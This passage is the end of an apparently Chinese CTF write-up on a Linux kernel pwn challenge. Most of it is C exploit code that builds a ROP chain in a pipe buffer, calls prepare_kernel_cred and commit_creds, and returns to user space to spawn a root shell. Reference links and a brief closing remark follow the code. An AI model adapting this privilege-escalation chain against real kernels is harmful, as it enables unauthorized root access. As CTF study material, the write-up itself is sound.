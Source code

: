 ```c
    ropchain[9] = (size_t)get_shell;
    ropchain[10] = user_cs;
    ropchain[11] = user_rflags;
    ropchain[12] = user_rsp;
    ropchain[13] = user_ss;
    // 发现情况不一样 把 ropchain 放到 pipe_buf 里面
    pipe_buf[0] = ret + offset;
    pipe_buf[1] = pop_rdi_ret + offset;
    pipe_buf[2] = (size_t)ptr + 0x80; // 这个一定要是 kernel address
    pipe_buf[3] = pop_rdi_ret + offset;
    pipe_buf[4] = 0;
    pipe_buf[5] = prepare_kernel_cred + offset;
    pipe_buf[6] = mov_rdi_rax + offset;
    pipe_buf[7] = commit_creds + offset;
    pipe_buf[8] = swapgs_ret + offset;
    pipe_buf[9] = iretq_ret + offset;
    pipe_buf[10] = (size_t)get_shell;
    pipe_buf[11] = user_cs;
    pipe_buf[12] = user_rflags;
    pipe_buf[13] = user_rsp;
    pipe_buf[14] = user_ss;

    memcpy(pipe_buf + 0x10, ropchain, 120); // 这个实际上是拷贝到 (size_t)pipe_buf + 0x80 的位置了

    write(fd, page, 0x2e0);

    for (int i = 0; i < 50; i++)
    {
        close(pipe_fd[i][0]);
        close(pipe_fd[i][1]);
    }
    return 0;
}
```
## reference
- https://blingblingxuanxuan.github.io/2023/01/10/23-01-10-kernel-pwn-useful-struct/#pipe-buffer
- https://blog.xmcve.com/2024/10/01/SCTF-2024-Writeup/
- https://www.ctfiot.com/207863.html

## 总结
唉，一个简单题复现了好久（日常写代码太磨叽 ggg）   
以及是秋天啦，大家秋天快乐 ~